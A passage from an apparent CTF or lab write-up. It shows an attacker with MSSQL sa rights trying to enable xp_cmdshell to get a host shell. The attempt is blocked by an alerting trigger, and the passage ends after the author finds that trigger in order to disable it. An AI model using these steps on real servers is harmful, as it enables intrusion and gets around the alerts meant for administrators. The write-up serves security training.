 # BackTrack

Now that I’m sa on the database, I want to get a shell on the host. I’ll try `xp_cmdshell`, but it fails.

```bash

SQL (df  dbo@master)> xp_cmdshell whoami
ERROR(COMPATIBILITY\POO_PUBLIC): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.

```

it could be the command is disabled, lets try to enable it.

```bash
SQL (df  dbo@master)> enable_xp_cmdshell
INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.

```

Trying the manual way, I still got the same error.

```bash
SQL (df  dbo@master)> sp_configure 'show advanced options', '1'
INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (df  dbo@master)> reconfigure
SQL (df  dbo@master)> sp_configure 'xp_cmdshell', '1'
ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.

```

These triggers serve as a policy designed to alert and prevent attempts to enable and use `xp_cmdshell`. The issue is that, as the `sa` user, I have the ability to [disable these triggers](https://www.mssqltips.com/sqlservertip/2987/can-i-stop-a-system-admin-from-enabling-sql-server-xpcmdshell/). Triggers can be found in `sys.server_triggers` :

```bash
SQL (df  dbo@master)> select name from sys.server_triggers;
name                
-----------------   
ALERT_xp_cmdshell  
```
